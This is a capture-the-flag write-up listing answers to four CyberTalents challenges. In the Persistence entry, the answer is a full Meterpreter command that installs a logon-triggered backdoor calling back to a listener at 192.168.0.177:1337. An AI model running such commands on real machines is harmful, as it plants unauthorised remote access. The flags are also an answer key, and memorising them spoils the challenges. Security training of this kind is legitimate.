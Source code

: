 
## Challenge Name: Silent Look

#### [Challenge Link](https://cybertalents.com/challenges/general-information/silent-look)
#### Challenge Description: athering as much information as possible without establishing contact between the pen tester and the target which you are collecting information.

Flag Format: XXXXXXX XXXXXXXXXXX XXXXXXXXX

#### Flag : Passive Information Gathering


## Challenge Name:  CVE Number 

#### [Challenge Link](https://cybertalents.com/challenges/general-information/cve-number)
#### Challenge Description : What is the CVE ID that is related to EternalBlue

Just look into WikiPedia Page https://en.wikipedia.org/wiki/EternalBlue

Flag Format: XXX-XXXX-XXXX
#### Flag : CVE-2017-0144

## Challenge Name:  Persistence

#### [Challenge Link](https://cybertalents.com/challenges/general-information/persistence)
#### Challenge Description

You want to achieve persistence using Meterpreter’s persistence module by creating an autorun registry file and getting a shell automatically every time the user restarts the PC

Persistence options 

    Your local host IP: 192.168.0.177
    Your Local port: 1337
    Minutes after restarting the system: 7 

Flag format is the full command used in MSF

If you look into the meterpeters help
```

[!] Meterpreter scripts are deprecated. Try post/windows/manage/persistence_exe.
[!] Example: run post/windows/manage/persistence_exe OPTION=value [...]
Meterpreter Script for creating a persistent backdoor on a target host.

OPTIONS:

    -A        Automatically start a matching exploit/multi/handler to connect to the agent
    -L   Location in target host to write payload to, if none %TEMP% will be used.
    -P   Payload to use, default is windows/meterpreter/reverse_tcp.
    -S        Automatically start the agent on boot as a service (with SYSTEM privileges)
    -T   Alternate executable template to use
    -U        Automatically start the agent when the User logs on
    -X        Automatically start the agent when the system boots
    -h        This help menu
    -i   The interval in seconds between each connection attempt
    -p   The port on which the system running Metasploit is listening
    -r   The IP of the system running Metasploit listening for the connect back
 ```

#### Flag : run persistence -U -i 7 -p 1337 -r 192.168.0.177


## Challenge Name: remove

#### [Challenge Link](https://cybertalents.com/challenges/general-information/remove)
#### Challenge Description I need to remove a file called secret in my home directory. which command should i use you 
User's home directory /home/USERNAME/ or ~/ for short, contains user's files
#### Flag : rm ~/secret
